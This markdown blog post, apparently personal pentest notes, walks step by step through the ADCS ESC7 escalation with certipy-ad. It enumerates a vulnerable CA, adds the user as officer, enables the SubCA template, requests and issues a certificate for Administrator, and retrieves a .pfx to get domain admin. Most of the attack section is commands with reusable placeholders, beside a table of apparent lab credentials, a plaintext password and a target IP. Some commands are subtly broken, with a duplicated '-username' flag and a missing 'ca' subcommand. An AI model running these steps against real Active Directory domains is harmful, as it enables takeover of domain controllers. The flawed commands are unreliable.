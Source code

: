 ```yaml
---
title: ADCS - ESC7
date: 2025-05-19 06:05:00 +/-TTTT
categories: [ADCS]
tags: [ESC7]     # TAG names should always be lowercase
image : /assets/images/esc7.gif
---
```

## Entry

| **Requirement**                      | **Details**                                                                 |
| ------------------------------------ | --------------------------------------------------------------------------- |
| **Manage CA Access Right**           | Required to configure the Certificate Authority, including assigning roles. |
| **Manage Certificates Access Right** | Needed to issue, approve, and manage certificates.                          |

| **Condition**                 | **Impact**                                                                                                           |
| ----------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| User has **Manage CA** access | Can assign themselves **Manage Certificates** rights by adding their account as a **Certificate Manager** (officer). |

## Enumerate

Command to execute:
```sh
certipy-ad find -username '<username>' -password '<password>' -vulnerable -dc-ip <DC-IP> -stdout
```
![alt text](../assets/images/esc71.png)

We can also analyze on Bloodhound.

Command to execute:
```sh
certipy-ad find -username '<username>' -password '<password>' -vulnerable -dc-ip <DC-IP> -vulnerable -enabled -old-bloodhound
```
and it will give `20250520002150_gpos.json` so we can upload on Bloodhound and lets see.

![alt text](../assets/images/esc78.png)

## Attack

| **Item**              | **Example / Description**                                                         |
| --------------------- | --------------------------------------------------------------------------------- |
| **Username**          | `Simon.Bowen@intercept.vl` – User must have **Manage CA** rights on the target CA |
| **Password**          | `b0OI_fHO859+Aw` – Corresponding password for the account                         |
| **Domain Controller** | `10.10.171.245` – IP address of the target Domain Controller                      |
| **CA Name**           | `intercept-DC01-CA` – Name of the Certificate Authority                           |
| **Template**          | `SubCA` – Used to request a certificate capable of issuing other certificates     |
| **Target UPN**        | `Administrator@intercept.vl` – The UPN used in the malicious certificate request  |

We will start add our user to **officer** to initiate a certificate request using the **SubCA template**

Command to execute:
```sh
certipy-ad ca -ca '<CA-name>' -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -add-officer  <username>
```
![alt text](../assets/images/esc72.png)

Now enable template of SubCA.

Command to execute:
```sh
certipy-ad ca -ca '<CA-name>' -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -enable-template SubCA
```
![alt text](../assets/images/esc73.png)

Now we can request certificate for Administrator

Command to execute:
```sh
certipy-ad req -username -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -ca '<CA-name>' -template SubCA -upn 'Administrator@<domain>' 
```
![alt text](../assets/images/esc74.png)

### ➜ Issue The Failed Certificate Request

To issue the previously denied certificate request, use the certipy command with the **-issue-request parameter**.

Command to execute:
```sh
certipy-ad -ca '<CA-name>' -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -issue-request 5
```
![alt text](../assets/images/esc75.png)

Retrieve the issued certificate by running the req command with the **-retrieve** parameter.

Command to execute:
```sh
certipy-ad req  -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -ca '<CA-name>' -retrieve 5
```
![alt text](../assets/images/esc76.png)

Once the .pfx certificate file is obtained, request the domain admin TGT Ticket or the administrator hash to gain access to the domain controller.

![alt text](../assets/images/esc77.png)
